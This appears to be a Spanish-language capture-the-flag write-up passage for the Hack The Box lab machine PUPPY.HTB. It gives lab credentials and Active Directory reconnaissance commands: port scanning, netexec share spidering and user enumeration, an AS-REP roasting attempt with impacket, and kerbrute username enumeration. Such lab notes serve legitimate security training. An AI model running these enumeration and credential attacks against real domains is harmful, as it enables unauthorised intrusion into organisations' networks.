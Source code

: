 levi.james / KingofAkron2025!
## Reconocimiento
`rustscan -a $IP --ulimit 1000 -r 1-65535 -- -A -sCV -oG allPorts`

*Puertos*
`53/DNS`
`88/kerberos`
`111/rpcbind`
`389/LDAP`
`445/SMB`
`5985/WinRm`


`netexec ldap $IP 2>/dev/null` 
`LDAP 10.10.11.70 389 DC [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)`

`iRealm --force $IP PUPPY.HTB DC`
Nos añade la maquina a `/etc/hosts` y nos añade el nombre del dominio y FQDN a `/etc/krb5.conf`

Verificamos las credenciales son validas con [[CRACKMAPEXEC-NETEXEC]]
`nxc ldap $IP -u 'levi.james' -p 'KingofAkron2025!'` si sale en verde es que las credenciales son validas

Buscamos recursos compartidos con [[CRACKMAPEXEC-NETEXEC]]
`nxc smb $IP -u 'levi.james' -p 'KingofAkron2025!' --shares  -M spider_plus`

Nos genera un archivo `.JSON` en `/root/.nxc/modules/nxc_spider_plus/10.10.11.70.json`

Enumerar usuarios del dominio con [[CRACKMAPEXEC-NETEXEC]] 
`nxc ldap $IP -u 'levi.james' -p 'KingofAkron2025!' --users`
```     
Administrator    
Guest            
krbtgt           
levi.james       
ant.edwards      
adam.silver      
jamie.williams   
steph.cooper     
steph.cooper_adm 
```

Usaremos el ataque de AS-REP ROASTING con [[IMPACKET]]
`impacket-GetNPUsers -no-pass -usersfile users.txt puppy.htb/`
No es susceptible al ataque.

Enumeracion de usuarios y verifica que exista en el dominio [[KERBRUTE]]
`kerbrute userenum --dc $IP -d puppy.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames`











